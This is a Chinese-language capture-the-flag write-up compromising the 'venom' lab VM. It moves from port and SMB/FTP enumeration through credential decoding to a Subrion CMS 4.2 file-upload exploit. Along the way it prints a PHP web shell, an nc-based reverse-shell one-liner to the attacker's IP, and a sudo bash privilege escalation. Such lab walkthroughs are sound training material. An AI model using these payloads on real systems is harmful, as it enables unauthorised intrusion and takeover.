

# 前言

靶机：`venom`靶机，IP地址为`192.168.10.11`

攻击：`kali`，IP地址为`192.168.10.6`

靶机和攻击机都采用`VMware`虚拟机，都采用桥接网卡模式

> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载  `https://pan.quark.cn/s/17a61c1c7476`

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```shell
netdiscover -r 192.168.10.1/24
```


# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.11 -p- -oA nmap-tcp
```


再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.11 --top-ports 20 -oA nmap-udp
```


可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选

```shell
ports=`grep open nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```


进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.11 -p $ports --min-rate=1000 -oA detail
```


再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.11 -p $ports -oA vuln
```


信息总结：

| 端口 | 服务        | 版本                |
| ---- | ----------- | ------------------- |
| 21   | ftp         | vsftpd 3.0.3        |
| 80   | http        | apache httpd 2.4.29 |
| 443  | http        | apache httpd 2.4.29 |
| 139  | netbios-ssn | Samba 3.x-4.x       |
| 445  | netbios-ssn | Samba 4.7.6-ubuntu  |

## FTP信息探测

因为目标采用的是`vsftp`所以验证很是安全

```shell
ftp anonymous@192.168.10.11
```


使用`nmap`的脚本进行探测枚举

```shell
nmap --script=ftp* 192.168.10.11 21
```


暂且搁置

## SMB信息探测

使用`enum4linux`枚举目标靶机的用户和共享

```shell
enum4linux 192.168.10.11 -a
```


也可以使用`smbclient`查看共享

```shell
smbclient -L //192.168.10.11 -N
```


不过，连接目标的两个共享后，并没有任何内容。


信息小结：

两个用户`nathan`和`hostinger`

## 网站信息探测

访问80端口的界面，可以看到是`apache2`搭建好的默认界面


查看页面源代码，在最下面发现关键信息，疑似`md5`加密的值


去网站`somd5.com`进行解密，发现是`hostinger`，这是前面`smb`枚举出的用户名？


猜测，这个就是某个用户的凭据，那么测试`ftp`

也就是有两种搭配

| 用户名    | 密码      |
| --------- | --------- |
| nathan    | hostinger |
| hostinger | hostinger |

443端口的网站与80端口是一样的

# FTP登录获取信息

测试发现，只有`hostinger`用户可以登录

```shell
ftp hostinger@192.168.10.11
```


查看文件，发现`hint.txt`，下载到本地`kali`

```shell
get hint.txt
```


查看`hint.txt`文件


可以得知，说需要尝试`venom.box`，可能需要绑定域名

这里需要解密的东西很多，并且指定`hostinger`，这个可能是`key`

```shell
#疑似base64编码
WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=
aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=

#疑似hash加密
L7f9l8@J#p%Ue+Q1234
```

对上面的两种`bse64`编码进行解码，发现加密方法和一个网站


也就是这样的，算法`standard vigenere cipher`，解密网站`https://cryptii.com/pipes/vigenere-cipher`，先进行解密，获得密码`E7r9t8@Q#h%Hy+M1234`


# 绑定域名再探网站

把`venom.box`进行绑定

```shell
vim /etc/hosts
```


然后访问`venom.box`，可以看到不一样的内容了


这里根据前面的`hint.txt`内容，解密后的密码就是用在这里的，那么用户名呢，以前面两个获取的用户名和`hint.txt`中的`dora`进行测试，组合如下

```shell
nathan		E7r9t8@Q#h%Hy+M1234
hostinger	E7r9t8@Q#h%Hy+M1234
dora		E7r9t8@Q#h%Hy+M1234
```

最终以`dora`的身份登录成功


点击齿轮标志，进入设置面板，并且在其中发现了网站的CMS及其版本`Subrion CMS 4.2`


在进行探测的时候，发现一个可以上传文件的位置


不过我在尝试上传`php`文件时，可以上传，但是访问的时候，无权访问

```shell
http://venom.box/uploads/phpinfo.php
```

# 文件上传利用到反弹shell

上传图片可以直接上传，并且能够访问，所以尝试上传`.htaccess`文件时，提示不能上传。那么只能转变思路。使用`searchsploit`搜索该CMS的版本漏洞，发现有，是`py`脚本


查看这个脚本，发现找到`payload`，需要`.phar`格式

> `.phar`是 PHP 归档文件格式（PHP Archive）。它是一种将多个 PHP 文件或其他相关资源打包成单个文件的格式，以便于分发、部署和管理 PHP 应用程序或库。
>
> 要使用`.phar`文件，PHP 环境需要支持`phar`扩展。通常，现代的 PHP 版本默认已经启用了该扩展。可以通过在 PHP 脚本中使用`include`或`require`语句来加载`.phar`文件，就像加载普通的 PHP 文件一样。


那么上传一个文件，名为`shell.php.phar`，其代码为

```php
<?php system($_GET['cmd']);?>
```


再次访问这个文件

```shell
http://venom.box/uploads/shell.php.phar?cmd=ls
```



`binggo`，那么下面就构造反弹`shell`

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.10.6 9999 >/tmp/f
#进行url编码
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.10.6%209999%20%3E%2Ftmp%2Ff
```

当然在执行上面的命令时，要先在`kali`使用`nc`开启监听


加固`shell`，使用`dpkg`查看安装哪个版本的`python`

```shell
dpkg -l | grep python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 提权

在获取shell后，在`/var`目录下发现备份目录`backup.bak`，在该目录下发现`.backup.txt`，查看后发现用户名`hostinger`和密码`hostinger`


尝试直接进行`su`，发现可以，这个用户名和密码是贯穿总体啊


搜索一下，想要找一下数据库连接的文件，发现在网站目录下有`backup`目录，并且其中有一个文件`.htaccess`文件，查看文件，发现一串字符，`FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a`


回到`hostinger`主目录，查看命令历史记录，发现几个关键点


是查看这个有字符串的文件后，切换用户`nathan`的，那么这就有可能是`nathan`的密码了，尝试进行切换


然后再到`nathan`的主目录查看命令历史记录，发现使用`sudo -l`了，所以尝试一下，发现可以`sudo`


根据这个配置，处理`/bin/su`不能使用，其他的都可以，那么直接提权

```shell
sudo /bin/bash -p
```


查看`/root`目录下的文件


# 总结

该靶机主要考察下面的几个方向：

1. 开放了SMB服务，你能做什么，可以发现什么
2. 开放了FTP服务，你能联想到怎么做
3. 隐藏信息，你能感觉这个信息是做什么的
4. 网站CMS漏洞，会利用
5. 备份文件会找吗
6. 提权的`sudoers`配置你能看懂吗
